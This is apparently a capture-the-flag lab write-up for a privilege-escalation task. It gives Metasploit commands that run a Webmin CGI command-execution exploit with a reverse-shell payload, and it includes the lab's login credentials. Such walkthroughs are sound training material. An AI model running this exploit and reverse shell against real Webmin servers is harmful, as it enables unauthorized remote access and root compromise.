 ## Task 6 - Privilege Escalation with Metasploit

Using the CMS dashboard version, use Metasploit to find a payload to execute against the machine.

### Answer the questions below

* What is the root flag?
	
	``

	* Searchsploit
	
		```
		search webmin
		```
	
		![task6-searchsploit](./images/task6-searchsploit.png)

	* Use exploit
	
		```
		use exploit/unix/webapp/webmin_show_cgi_exec
		set payload cmd/unix/reverse
		set RHOSTS localhost
		set USERNAME agent47
		set PASSWORD videogamer124
		set SSL false
		set LHOST tun0
		exploit
		```

		![task6-use](./images/task6-use.png)
